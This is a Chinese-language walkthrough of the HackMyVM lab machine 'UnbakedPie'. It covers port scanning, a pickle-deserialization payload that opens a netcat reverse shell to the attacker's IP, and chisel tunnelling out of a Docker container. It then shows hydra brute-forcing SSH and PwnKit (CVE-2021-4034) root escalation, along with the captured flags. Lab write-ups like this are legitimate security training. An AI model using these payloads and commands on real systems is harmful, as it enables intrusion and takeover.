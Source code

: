 ```yaml
---
{"created":"2024-11-28T17:42:52.177+08:00","tags":["HMV","PwnKit提取","容器逃逸","pickle反序列化","端口转发","隧道搭建"],"Type":"wp","dg-publish":true,"难度":"⭐️⭐️⭐️⭐️⭐️","作者":"ch4rm","aliases":null,"permalink":"/24-渗透/HMV/32.UnbakedPie/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/32.UnbakedPie#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/32.UnbakedPie#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/32.UnbakedPie#3. python反序列化\|3. python反序列化]]
- [[24-渗透/HMV/32.UnbakedPie#4. docker逃逸&提权\|4. docker逃逸&提权]]
- [[24-渗透/HMV/32.UnbakedPie#5. 端口转发 与SSH爆破\|5. 端口转发 与SSH爆破]]
	- [[24-渗透/HMV/32.UnbakedPie#5.1. chisel 搭建端口转发\|5.1. chisel 搭建端口转发]]
	- [[24-渗透/HMV/32.UnbakedPie#5.2. hydra爆破密码\|5.2. hydra爆破密码]]
- [[24-渗透/HMV/32.UnbakedPie#6. 提权\|6. 提权]]
**靶机链接** https://hackmyvm.eu/machines/machine.php?vm=UnbakedPie
**作者** [ch4rm](https://hackmyvm.eu/profile/?user=ch4rm)
**难度** ⭐️⭐️⭐️⭐️⭐️

## 2. 信息收集
```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# nmap -sS 192.168.56.27 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-28 17:53 CST

Nmap scan report for 192.168.56.27
Host is up (0.0010s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
5003/tcp open  filemaker
MAC Address: 08:00:27:10:44:F1 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 959.54 seconds
```

网站
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128182147.png)
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128183615.png)
 
`Server WSGIServer/0.2 CPython/3.8.6`
Python写的

上面有一个搜索框
抓包看看数据
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128202309.png)
`gA` 开头 一眼 [python反序列化](../../21-CTF/python/python反序列化.md)

对这个进行解码看一下
```python
import base64
a='gASVCgAAAAAAAACMBjEyMzEyM5Qu'
print(base64.b64decode(a))

输出
b'\x80\x04\x95\n\x00\x00\x00\x00\x00\x00\x00\x8c\x06123123\x94.'
```

```python
import pickle

p = b'\x80\x04\x95\n\x00\x00\x00\x00\x00\x00\x00\x8c\x06123123\x94.'
d = pickle.loads(p)
print(d)

输出
123123
```

## 3. python反序列化

123123就是我们输入的明文搜索内容

那我们直接构建一个反弹shell的payload

![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241128230329.png)


```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("nc -e /bin/bash 192.168.80.5 1111 ",))
print(base64.b64encode(pickle.dumps(P())))

输出：
gASVPQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCJuYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC44MC41IDExMTEglIWUUpQu
```
> [!warning]
> 这里一定要用Linux生成payload，因为其使用了 `os.system` 这个函数在linux与windows有所不同。所以要与靶机的系统相同。使用Linux生成payload


```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# python payload.py
b'gASVPQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCJuYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC44MC41IDExMTEglIWUUpQu'

```
然后在这个位置随便搜索一下。抓个包替换掉 `search_cookie`
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201120622.png)
开启监听 发包 反弹shell
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201120703.png)
## 4. docker逃逸&提权
进来后会发现自己是root权限
但其实是在docker里面
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201120834.png)
可以在根目录看到有一个 `.dockerenv` 文件。这就是在容器里面的特征之一

上传 [cdk](../../26-工具使用/CDK使用.md) 进行检测

先看一下内核版本
```bash
(remote) root@8b39a559b296:/tmp# uname -a
Linux 8b39a559b296 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 GNU/Linux
```

试了好几个发现都不能成功，还是在看看其他利用点吧

看一下历史记录
```bash
history
```
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201135010.png)
这里面可以看到容器进行了一个内网的ssh连接 用户名是 `ramsey` IP是 `172.17.0.1`
这个ip可能就是主机IP 

我们尝试进行ssh连接一下
```bash
(remote) root@8b39a559b296:/tmp# ssh ramsey@172.17.0.1
bash: ssh: command not found
```
发现容器并没有安装ssh。 可能是已经杯卸载了

但是主机是不是开放了 ssh服务这对我们十分重要
在开始进行端口扫描时 就可以发现主机只对外开放了5003端口 并没有22端口
我们看看主机对内开放什么端口
```bash
(remote) root@8b39a559b296:/tmp# nc -znv 172.17.0.1 1-65535
(UNKNOWN) [172.17.0.1] 5003 (?) open
(UNKNOWN) [172.17.0.1] 22 (ssh) open
```
可以看到对内是开放了ssh服务的

## 5. 端口转发 与SSH爆破
此时我们知道了主机 ssh的用户名与ip
**那么我们这时候只需要搭建一个容器与kali的隧道，使得主机可以访问容器内网，然后在kali上进行ssh爆破即可**


### 5.1. chisel 搭建端口转发
使用kali给容器传一个 [chisel](../../26-工具使用/chisel%20使用.md)

kali开启反向监听
```bash
┌──(root㉿kali)-[/home]
└─# ./chisel server -p 9999 --reverse
2024/12/01 14:07:07 server: Reverse tunnelling enabled
2024/12/01 14:07:07 server: Fingerprint sP2BcLu3iBtJ8s51afwrmDlqpOsmsqVe64WNopPvgQM=
2024/12/01 14:07:07 server: Listening on http://0.0.0.0:9999

```

容器连接并配置反向端口转发
```bash
(remote) root@8b39a559b296:/tmp# ./chisel client 192.168.80.5:9999 R:8888:172.17.0.1:22
2024/12/01 06:09:54 client: Connecting to ws://192.168.80.5:9999
2024/12/01 06:09:54 client: Connected (Latency 799.51µs)

```

这时候访问就可以通过kali本地的 `127.0.0.1:8888` 访问到容器的 `172.17.0.1:22`

### 5.2. hydra爆破密码

```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# hydra -l ramsey -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1:8888
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-01 14:12:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://127.0.0.1:8888/
[8888][ssh] host: 127.0.0.1   login: ramsey   password: 12345678

```
成功获取到密码 `12345678`

ssh连接获取flag
```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# ssh ramsey@127.0.0.1 -p 8888
The authenticity of host '[127.0.0.1]:8888 ([127.0.0.1]:8888)' can't be established.
ED25519 key fingerprint is SHA256:B6SoW4WBwsc2n9NynSce9+R0E44T4YkZVRxD5y5Muhc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:8888' (ED25519) to the list of known hosts.
ramsey@127.0.0.1's password:
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


39 packages can be updated.
26 updates are security updates.


Last login: Sat Oct  3 22:15:57 2020 from 172.17.0.2


ramsey@unbaked:~$ cat user.txt
Unb4ked_W00tw00t

```
## 6. 提权
使用 [LZS](../../26-工具使用/LZS使用.md) [LZS使用](../../26-工具使用/LZS使用.md) 进行提权检测
发现可以用Pwnkit提权
直接提权
```bash
bash lzs.sh //提权检测
wget http://192.168.80.5/main.tar.gz
tar -zxvf main.tar.gz
cd CVE-2021-4034-main/
make
./cve-2021-4034
```

> pwncat下载的 `mian` 默认是zip压缩的。但是靶机上是没有 `unzip` 的所以要先在外面解压然后用`tar`打包 再传给靶机
```bash
root@unbaked:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(ramsey)
root@unbaked:/tmp# cat /root/root.txt
CONGRATS ON PWNING THIS BOX!
Created by ch4rm & H0j3n
ps: dont be mad us, we hope you learn something new

flag: Unb4ked_GOtcha!

```

